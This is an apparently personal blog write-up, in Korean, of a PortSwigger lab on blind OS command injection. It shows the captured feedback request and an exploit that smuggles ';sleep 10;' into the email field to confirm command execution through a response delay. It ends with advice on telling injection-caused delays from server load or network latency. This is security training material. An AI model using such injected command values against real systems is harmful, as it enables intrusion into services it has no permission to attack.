


+++
date = '2026-09-24T21:10:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Blind OS command injection with time delays"
summary = "피드백 email 입력에 sleep을 삽입하고 10초의 응답 지연으로 명령 실행을 확인하는 Blind OS Command Injection 풀이"
toc = true
tags = ["OS Command Injection", "Blind OS Command Injection", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

> 

이 랩은 피드백을 처리하는 셸 명령에 사용자 입력을 포함한다. 명령 출력이 응답에 표시되지 않으므로, 10초의 지연을 발생시켜 실행 여부를 확인하는 것이 목표다.

### OS Command Injection 진단

먼저 피드백을 제출할 때 전송되는 요청을 확인한다.

```text
POST /feedback/submit HTTP/2
Host: 0a330029046526828465416b00d8004a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

csrf=hk9PLPAqJaxJ1km5KMa7y2hrWnXtZApE&name=test&email=hacker%40evil-user.net&subject=test&message=test
```

입력 위치를 하나씩 바꿔 확인하면 `email`에 `sleep`을 추가했을 때 응답 지연이 발생한다.

---

## 익스플로잇

`email`에 `;sleep 10;`을 삽입한다. 요청 본문은 `application/x-www-form-urlencoded` 형식이므로 아래의 `+`는 디코딩 후 공백이 된다.

```text
csrf=hk9PLPAqJaxJ1km5KMa7y2hrWnXtZApE&name=test&email=hacker%40evil-user.net;sleep+10;&subject=test&message=test
```

요청을 전송하면 응답이 지연되고 실습이 완료된다.



---

## 정리

명령의 출력이 보이지 않아도 실행에 걸리는 시간은 응답에 남을 수 있다. 이 랩에서는 `email`에 들어간 `sleep 10`이 응답을 지연시키면서 명령 실행을 확인하는 기준이 됐다.

시간을 근거로 진단할 때는 정상 요청의 지연과 비교하고, 같은 조건에서 반복되는지 확인해야 한다. 서버 부하나 네트워크 지연을 분리해야 입력한 명령과 응답 시간 사이의 관계를 판단할 수 있다.

유형별 원리와 다른 실습은 [OS Command Injection Lab](/lab/portswigger-os-command-injection/)에 정리했다.
